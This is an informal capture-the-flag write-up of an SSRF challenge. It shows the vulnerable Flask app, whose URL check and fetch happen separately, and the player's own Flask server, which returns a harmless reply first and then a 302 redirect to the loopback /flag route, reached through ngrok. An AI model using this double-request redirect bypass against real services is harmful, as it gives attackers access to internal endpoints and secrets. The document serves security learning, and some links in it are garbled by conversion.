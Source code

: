so this was the ssrf bypassing challenge where the python based website server was running the code was quite simple whereas the solution was kinda great

the website was that it was taking the url from user and directing to the dest. by checking it safe or not

the code was:

####

from flask import Flask, request, render_template

import os

import advocate

import requests

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])

def index():

if request.method == 'POST':

url = request.form['url']

# Prevent SSRF

try:

advocate.get(url)

except:

return render_template('index.html', error=f"The URL you entered is dangerous and not allowed.")

r = requests.get(url)

return render_template('index.html', result=r.text)

return render_template('index.html')

@app.route('/flag')

def flag():

if request.remote_addr == '127.0.0.1':

return render_template('flag.html', FLAG=os.environ.get("FLAG"))

else:

return render_template('forbidden.html'), 403

if __name__ == '__main__':

app.run(host="0.0.0.0", port=80, threaded=True)

#####

as we can see that when the website was having the url just “/” at last eg: [https://youtube.com/](https://youtube.com/)

it was executing the code @app.route('/')

else the code below if “/flag”

but when we gave such thing it blocked it

also look at the code , we get the flag only when the remote address was 127.0.0.1 i.e loopback address of machine

the tricky part of the above code was that it was checking the website itself first before redirecting it to the user

so we somehow had to give 2 website 1 good one to fool it and then other one that is ours to run back of the server

so what we had to do was to either try a dns rebinding attack

refer: [https://hong5489.github.io/2022-06-06-seetf2022/#ssrf](https://hong5489.github.io/2022-06-06-seetf2022/#ssrf)

or the 2nd method to port forward it to our server where we run our malicious code and that code contained the the url for it's loopback address:

so we made our code :

####

from flask import Flask , redirect, request

app = Flask(__name__)

check=True;

@app.route("/")

def index():

return "<a href='[https://youtube.com'>youtube</a>";](https://youtube.com'>youtube</a>)

@app.route("/exploit",methods=['GET','POST'])

def handle():

global check

if check:

check=False; # sahi req

return "beta pehli sahi thi lekin duusri?"

else:

check=True; # malicious req

return redirect("[http://127.0.0.1/flag",](http://127.0.0.1/flag) code=302)

####

we then used flask-run to start the server and run it whosoever requests it

see how we gave the good yt link and then we gave the second link

then we started the ngrok service for the 5000 server :

so we put the url in the website like this:

<url of ngrok>/exploit